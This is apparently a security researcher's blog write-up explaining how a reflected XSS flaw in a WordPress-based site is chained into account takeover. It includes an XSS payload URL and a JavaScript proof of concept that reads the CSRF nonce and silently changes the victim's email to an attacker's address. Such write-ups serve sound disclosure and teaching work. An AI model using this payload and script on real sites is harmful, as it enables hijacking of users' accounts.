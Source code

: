 ```yaml
---
title: "Reflected XSS to Account Takeover"
date: 2025-02-17
draft: false
description: "A reflected XSS bug turns into an ATO due to low security messures"
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">

## <i class="fa-solid fa-bullseye"></i>  The Vulnerabillity
When researching an application, I noticed that there was a <span class="text-primary-400">feature for resetting the email address</span> of our user. Interestingly, when trying to change it, there was <span class="text-primary-400">no security mechanism verifying that the change was actually initiated by the user</span> of that account. Normally, there’s an extra step where the user must input their password or any other identification method.

So, the first thing that came to mind was trying to carry out a <span class="text-primary-400">CSRF attack</span>, where I force the user to change their email to mine. This would allow me to use the regular “forgot password” function from the website, then input the email address that was set in the victim’s account, receive the reset email, and change the password to a desired one. However, I quickly realized that <span class="text-primary-400">WordPress securely handled CSRF tokens</span> in this application, so I wasn’t able to take that route yet. The next idea was to <span class="text-primary-400">find an XSS vulnerability</span>, which would allow me to just read those tokens out of the HTML and submit the form with those automatically.

### Finding XSS
Luckily, during my research, I came across a simple reflected XSS in the application: `https://example.com/login/confirm_mail.php?email=<img/src/onerror=print()>`

### Creating the Exploit Script
The next step was to create the script that would automatically change the email address in the user’s settings. However, we first have to get the <span class="text-primary-400">nonce that Wordpress added to each form request</span>.

## <i class="fa-solid fa-file"></i> PoC

{{< highlight JS "linenos=false,hl_lines=5 12 19 23" >}}
fetch('https://example.com/edit-account/').then(response => response.text()).then(html => {
    // Fetch the nonce from vulnerable endpoint
    var parser = new DOMParser();
    var doc = parser.parseFromString(html, 'text/html');
    var nonce = doc.getElementById('save-account-details-nonce').value;
    console.log(nonce);

    // Change email
    fetch('https://example.com/edit-account/', {
        method: 'POST',
        // Include Cookies
        credentials: 'include',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: `first_name=Test
        &last_name=Test
        &display_name=Test
        &email=<email we controll>
        &password_current=
        &password_1=
        &password_2=
        &save-account-details-nonce=${nonce}`
    })
    .then(response => {
        if (response.ok) {
            console.log("Done!");
        } else {
            console.log("Something went wrong..");
        }
    });
});
{{< /highlight >}}

The password parameters can be left empty, since the application only uses those, when a user wants to change their password via the UI on the website:

```
password_current=
password_1=
password_2=
```

<b class="text-primary-400">Explanation</b>: We first send a request to the vulnerable endpoint to retrieve the nonce:
`https://example.com/edit-account/`. The response is parsed, and the nonce is extracted from the HTML `doc.getElementById('save-account-details-nonce').value`. After that, we send a second request to the endpoint where we then fill out the forms details. This request includes the nonce and the attacker’s desired email address. The credentials parameter ensures cookies are included, maintaining the session context.

With this script in hand we can include it via our reflected XSS `https://example.com/login/confirm_mail.php?email={ATTACKER-SCRIPT}` and send it to a victim. After the script automatically updates the email address of the victim, we can use the already described way via the password reset function. <span class="text-primary-400">Thus, the account is fully compromised where the victim isn't even able to recover the account, since not only the password but also the email address changed</span>.